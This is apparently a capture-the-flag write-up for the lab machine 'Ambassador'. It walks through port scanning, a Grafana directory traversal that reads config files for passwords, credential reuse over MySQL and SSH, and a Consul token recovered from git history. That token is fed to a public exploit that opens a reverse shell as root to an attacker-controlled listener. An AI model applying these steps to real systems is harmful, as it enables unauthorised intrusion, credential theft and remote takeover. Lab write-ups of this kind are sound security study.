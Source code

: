 # Ambassador

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 05:49 EDT
Nmap scan report for 10.129.228.56
Host is up (0.015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

### Port 80

The only interesting thing here is the mentioning of the user `developer`:

<figure><img src="../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

Other than that, there was not much here.

### Grafana LFI --> Creds

Port 3000 was hosting a Grafana instance.

<figure><img src="../../../.gitbook/assets/image (142) (2).png" alt=""><figcaption></figcaption></figure>

This version of Grafana is vulnerable to public exploits:

```
$ searchsploit grafana                
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

We can confirm that this works:

<figure><img src="../../../.gitbook/assets/image (77) (5).png" alt=""><figcaption></figcaption></figure>

Grafana stores a configuration file at `/etc/grafana/grafana.ini`, so let's start there. We can find some passwords within that:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

With this, we can login to the admin panel:

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Within the configuration files, we can find a `mysql.yaml` file.

<figure><img src="../../../.gitbook/assets/image (72) (5).png" alt=""><figcaption></figcaption></figure>

We can't edit it, and there wasn't any credentials in it:

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

However, maybe we can use the LFI to read this file on the machine itself.&#x20;

{% embed url="https://grafana.com/docs/grafana/latest/administration/provisioning/" %}

Based on this documentation, it is located in`/etc/grafana/provisioning/datasources`.&#x20;

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can login to the MySQL database on the machine:

```
$ mysql -u grafana -h 10.129.228.56 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Then, we can use the `whackywidget` database to find the password for `developer`.&#x20;

```
MySQL [whackywidget]> select * from users\g
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

We can then login as `developer` via `ssh` using this password.

## Privilege Escalation

### Consul Token --> RCE

I was wondering where that `whackywidget` dataabse came from and why it had the password for the user instead of the `grafana` database. Within the `/opt` directory, we can find some additional folders:

```
developer@ambassador:/opt$ ll
total 16
drwxr-xr-x  4 root   root   4096 Sep  1  2022 ./
drwxr-xr-x 20 root   root   4096 Sep 15  2022 ../
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul/
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app/

developer@ambassador:/opt/my-app$ ls
env  whackywidget
```

`consul` is an application used to configure and spin up applications with databases:

{% embed url="https://github.com/hashicorp/consul" %}

The application on the machine starts on port 8500, and we can also find out the version running:

```
developer@ambassador:/opt/my-app/env$ netstat -tulon
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)

developer@ambassador:/opt/my-app/env$ consul --version
Consul v1.13.2
```

There are some exploits for this:

{% embed url="https://github.com/owalid/consul-rce" %}

However, we first need to find the token within the files. Within the `/opt/my-app` directory, there's a `.git` repository.

```
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```

If we check the logs, we can find the token:

```
developer@ambassador:/opt/my-app$ git log -p -2
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Afterwards, just run the PoC above on the machine itself.&#x20;

```bash
developer@ambassador:~$ python3 exploit_consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.13 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

This would give us a reverse shell as `root`.

<figure><img src="../../../.gitbook/assets/image (75) (7).png" alt=""><figcaption></figcaption></figure>
